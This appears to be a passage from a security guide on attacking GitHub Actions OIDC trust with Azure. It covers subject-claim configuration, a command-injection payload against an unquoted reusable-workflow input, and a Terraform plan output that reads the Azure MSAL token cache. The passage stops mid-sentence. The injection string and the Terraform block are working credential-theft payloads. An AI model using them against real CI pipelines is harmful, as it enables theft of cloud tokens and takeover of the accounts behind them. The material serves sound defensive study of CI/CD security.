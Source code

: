 Configure claims in the caller repo so both repo and job_workflow_ref are present in sub:

```http
PUT /repos/<org>/<repo>/actions/oidc/customization/sub HTTP/2
Host: api.github.com
Authorization: token <access token>

{"use_default": false, "include_claim_keys": ["repo", "job_workflow_ref"]}
```

Warning: If you bind only job_workflow_ref in the FIC, an attacker could create a different repo in the same org, run the same reusable workflow on the same ref, satisfy the FIC, and mint tokens. Always include the caller repo as well.

## Code execution vectors that bypass job_workflow_ref protections

Even with properly scoped job_workflow_ref, any caller‑controlled data that reaches shell without safe quoting can lead to code execution inside the protected workflow context.

Example vulnerable reusable step (unquoted interpolation):

```yaml
- name: Example Security Check
  run: |
    echo "Checking file contents"
    if [[ "${{ inputs.file_contents }}" == *"malicious"* ]]; then
      echo "Malicious content detected!"; exit 1
    else
      echo "File contents are safe."
    fi
```

Malicious caller input to execute commands and exfiltrate the Azure token cache:

```yaml
with:
  file_contents: 'a" == "a" ]]; then cat /home/runner/.azure/msal_token_cache.json | base64 -w0 | base64 -w0; fi; if [[ "a'
```

## Terraform plan as an execution primitive in PRs

Treat terraform plan as code execution. During plan, Terraform can:
- Read arbitrary files via functions like file()
- Execute commands via the external data source

Example to exfiltrate Azure token cache during plan:

```hcl
output "msal_token_cache" {
  value = base64encode(base64encode(file("/home/runner/.azure/msal_token_cache.json")))
}
```

Or use external to run arbitrary commands:
